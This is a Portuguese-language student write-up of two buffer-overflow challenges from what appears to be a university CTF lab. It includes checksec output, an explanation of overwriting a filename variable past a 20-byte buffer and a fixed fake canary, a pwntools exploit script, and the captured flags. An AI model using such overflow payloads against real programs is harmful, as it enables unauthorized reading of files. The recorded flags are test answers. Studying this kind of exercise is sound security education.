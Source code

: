 # CTF 5

## Desafio #1

### checksec

```
[11/14/21]seed@VM:~/ctf5$ checksec program
[*] '/home/seed/ctf5/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### Existe algum ficheiro que é aberto e lido pelo programa?

O file `mem.txt` é aberto para leiture no programa.

### Existe alguma forma de controlar o ficheiro que é aberto?

O ficheiro nao é criado pelo programa entao podemos alterar o target file.

Existe um buffer overflow que nos deixa escrever por cima da variável que tem
contem o nome do ficheiro.

### Existe algum buffer-overflow? Se sim, o que é que podes fazer?

A leitura para o char array `buffer` aceita até 28 chars mas o buffer tem 20 =>
possível fazer overflow.

### Abusar buffer-overflow para ler outro ficheiro

```
[11/14/21]seed@VM:~/ctf5$ python3 exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4003: Done
[*] Switching to interactive mode
Echo 12345678901234567890flag.txt
I like what you got!
flag{6c9951e09608d5fcac88f83fa45e9f48}
[*] Got EOF while reading in interactive
$
[*] Closed connection to ctf-fsi.fe.up.pt port 4003
[11/14/21]seed@VM:~/ctf5$
```

### Flag 1

`flag{6c9951e09608d5fcac88f83fa45e9f48}`

## Desafio #2

### checksec

```
[11/14/21]seed@VM:~/.../challenge2$ checksec program
[*] '/home/seed/ctf5/challenge2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Mesmas permissoes.

### Que alterações foram feitas?

- Aumentaram o tamanho de chars lidos.
- Adicionaram um char array `val` que serve como uma especie de canary.

### Mitigam na totalidade o problema?

- Nao porque sabemos o que temos de escrever no array `val` para pasar o match.
- Continuamos a conseguir escrever sobre a variavel que contem o nome do
  ficheiro.

### É possivel ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

Sim.

### Script adapatado

```py
#!/usr/bin/env python3

from pwn import *
from sys import argv

DEBUG = False
if len(argv) > 1 and argv[1].lower() == "debug":
    DEBUG = True

local = './program'
url = 'ctf-fsi.fe.up.pt'
port = 4000
if DEBUG:
    r = process(local)
else:
    r = remote(url, port)

r.recvuntil(b":")
val = b"\x22\x21\xfc\xfe"
r.sendline(b"12345678901234567890" + val + b"flag.txt")
r.interactive()
```

### Flag 2

```
[11/14/21]seed@VM:~/.../challenge2$ ./exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
[*] Switching to interactive mode
I like what you got!
flag{4d4e6828b75144df352646b19f22a123}
[*] Got EOF while reading in interactive
$  
```
